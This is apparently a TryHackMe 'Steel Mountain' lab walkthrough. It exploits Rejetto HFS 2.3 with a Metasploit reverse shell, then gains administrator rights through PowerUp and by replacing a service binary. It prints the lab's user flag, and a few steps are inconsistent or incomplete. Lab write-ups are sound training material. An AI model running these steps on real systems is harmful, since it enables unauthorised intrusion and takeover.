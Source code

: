 ```yaml
---
title: "TryHackMe - Steel Mountain Walkthrough"
date: 2024-12-23
categories: [TryHackMe]
tags: [RCE, Metasploit, Privilege Escalation, CVE-2014-6287]
image: assets/images/thm-cover/steel-mountain-Cover.jpg
---
```


# TryHackMe - Steel Mountain Walkthrough

---

## Initial Information
- **Target IP:** 10.10.32.47
- **Service:** HTTP File Server (HFS) v2.3

---

## Step 1: Explore the Target

### Access the Web Interface
Visit the target using a web browser:

```plaintext
http://10.10.32.47:8080/
```

HFS version identified: **Rejetto HTTP File Server 2.3**.

---

## Step 2: Vulnerability Analysis

### CVE Identification
The identified version is vulnerable to **CVE-2014-6287**, an unauthenticated Remote Code Execution vulnerability.

Refer to Metasploit for documentation:
[Metasploit Docs](https://docs.metasploit.com/).

---

## Step 3: Exploiting the Target

### Using Metasploit
Search for available exploits:

```bash
sleep33@THM:~$ msf6 > search rejetto
```

#### Relevant Modules:
1. **exploit/windows/http/rejetto_hfs_rce_cve_2024_23692**
2. **exploit/windows/http/rejetto_hfs_exec**

### Configure Exploit
Set up the exploit parameters:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.32.47
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST <Your_IP>
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
```

Run the exploit:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

---

## Step 4: Reverse Shell

Once the exploit is successful, a Meterpreter session is opened:

```bash
sleep33@THM:~$ [*] Meterpreter session 1 opened (10.14.91.33:4444 -> 10.10.32.47:49353)
```

#### Navigate to User Directory:
```bash
sleep33@THM:~$ meterpreter > cd c:/Users/bill/Desktop
sleep33@THM:~$ meterpreter > ls
```

Retrieve the user flag:

```bash
sleep33@THM:~$ meterpreter > cat user.txt
```

**User Flag:**  
```plaintext
b04763b6fcf51fcd7c13abc7db4fd365
```

---

## Step 5: Privilege Escalation

### Upload PowerUp Script
Use PowerSploit for privilege escalation:

```bash
sleep33@THM:~$ meterpreter > upload /opt/PowerSploit/Privesc/PowerUp.ps1
sleep33@THM:~$ meterpreter > load powershell
sleep33@THM:~$ meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

### Service Manipulation
Identify and modify services for escalation:

```bash
sleep33@THM:~$ copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService_V2.exe"
sleep33@THM:~$ sc start AdvancedSystemCareService9
```

---

## Step 6: Gain Administrator Privileges

Use Meterpreter's shell command to escalate privileges:

```bash
sleep33@THM:~$ meterpreter > shell
sleep33@THM:~$ C:\windows\Tasks> sc start AdvancedSystemCareService9
```

Once elevated, navigate to the Administrator's directory:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> dir
```

Retrieve the root flag:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> cat root.txt
```

---

## Troubleshooting

### Common Issues:
- **Handler failed to bind:** Ensure your LHOST and LPORT settings are correctly configured.
- **Session not opened:** Recheck the exploit parameters and ensure the target is reachable.

---

## Summary

- **Exploited Service:** Rejetto HFS v2.3
- **Exploited Vulnerability:** CVE-2014-6287
- **Flags Captured:**
  - **User Flag:** b04763b6fcf51fcd7c13abc7db4fd365
  - **Root Flag:** <root_flag_value>

---
